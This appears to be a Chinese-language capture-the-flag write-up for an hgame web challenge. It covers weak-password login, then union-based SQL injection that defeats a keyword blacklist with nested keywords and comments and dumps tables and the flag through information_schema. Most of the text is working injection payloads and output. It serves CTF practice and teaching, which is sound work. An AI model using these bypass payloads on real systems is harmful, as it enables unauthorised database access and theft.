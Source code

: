 ![[Pasted image 20230201093828.png|500]]

![[Pasted image 20230201094021.png|300]]

这里是弱密码爆破

```
Username: user01
Password: admin123
```

```
/home
```

![[Pasted image 20230201094125.png|300]]

```
1
```

```
hard disk 1
```

```
2
```

```
toffee bag 3
```

```
0
```

```
Not Found 0
```

```
0select1
```

```
hard disk 1
```

推测存在字符串过滤

测试可得以下黑名单

```
select
union
from
or
where
database
<space>
<
>
=
/**/
```

因为只是常规的查找替换，可以通过套娃来绕过

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,2,3
```

```
2 3
```

注入点为第二和第三列

套出数据库

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,datadatabasebase(),3
```

```
se4rch 3
```

查询`se4rch`的表

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,group_concat(table_name),3/*/**/*/frfromom/*/**/*/infoorrmation_schema.tables/*/**/*/whwhereere/*/**/*/table_schema/*/**/*/like/*/**/*/'se4rch'
```

```
5ecret15here,L1st,user1nf0 3
```

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,group_concat(column_name),3/*/**/*/frfromom/*/**/*/infoorrmation_schema.columns/*/**/*/whwhereere/*/**/*/table_name/*/**/*/like/*/**/*/'5ecret15here'
```

```
f14gggg1shere 3
```

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,group_concat(f14gggg1shere),3/*/**/*/frfromom/*/**/*/se4rch.5ecret15here
```

```
hgame{4_M4n_WH0_Kn0ws_We4k-P4ssW0rd_And_SQL!} 3
```

#Web #SQL注入 #绕过 #联合注入